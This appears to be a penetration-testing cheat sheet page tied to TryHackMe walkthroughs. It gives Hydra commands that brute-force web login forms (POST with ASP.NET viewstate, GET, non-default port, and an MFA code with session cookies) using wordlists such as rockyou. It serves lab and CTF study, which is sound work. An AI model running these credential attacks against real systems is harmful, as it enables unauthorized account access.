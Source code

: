[hackpark.md](../../walkthroughs/tryhackme/hackpark.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=vvTqZ%2FG4tEKhQoxeTpJ%2FyGxM9ZY9ZIvd6YMUS%2BoY3uaQCjC%2BJRdlkd8rbIQsDHztL%2BjsAvOLJhxU7vTNo3GP%2FLEmsndGPNAlCDn%2FB%2FrK2ynp9QkhRe9iqKBUmM5FQT2kX%2Bg%2BfPDNnTuzqW5IlmTujw4sLEzbvvec9FDW4cbQevgTj1tHnKx0vMmkVah5imro0o%2BHvQ5%2FGvpafEs1NdnW6wrSsUFuXnYzletKCdLG%2FgSb7bCDOK4ukZK%2F1cMOgYtjOCU4gk4M7PhQcYZmGpAN7pPVCMpX2YwGnTSgBPPmCB6avoLqG5jRS%2F3PYMjsqEGcD9P9S555GMQPxtfyvOEaJw%2B%2BZELKU2yVYr4uWxamEITsWNAT&__EVENTVALIDATION=Tp%2B5DS80H3PFB8ipJ24uKyHkPhSkqKD7GFJlc2U6IaO61l68aholdIjrZJ%2FsotSi0QxRBQjayWovmb2SU%2Fk6lY%2BOpju62jOGDkAvqcdNsqGrgf3vrAYw88XT2ONABFvDTR771I2YAr7JylJ0HbBZV83nGvvXWSC6rmKDGn80%2FuszTjDZ&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed" -V
```



This example shows how to brute force a GET request. Check Password Attacks how to get the request from Burp.

#### Examples

[password-attacks.md](password-attacks.md "mention")

**Kali**

```
hydra -l $USERNAME -P dict.lst $VICTIM http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:S=logout.php"
```

### Crack on different port&#x20;

#### Examples

[ha-joker-ctf.md](../../walkthroughs/tryhackme/ha-joker-ctf.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt -s 8080 -f $VICTIM http-get /
```

### **Crafting request with cookie**

This example shows how to brute force a POST request. Check HackPark how to get the request from Burp.

#### Examples

[biteme.md](../../walkthroughs/tryhackme/biteme.md "mention")

**Kali**

```
hydra -l $USERNAME -P output.txt $VICTIM http-post-form "/console/mfa.php:code=^PASS^:H=Cookie: PHPSESSID=hshqcs3n42r9qjs5b2850r9alt; user=jason_test_account; pwd=violet:F=Incorrect code" -T 64
```
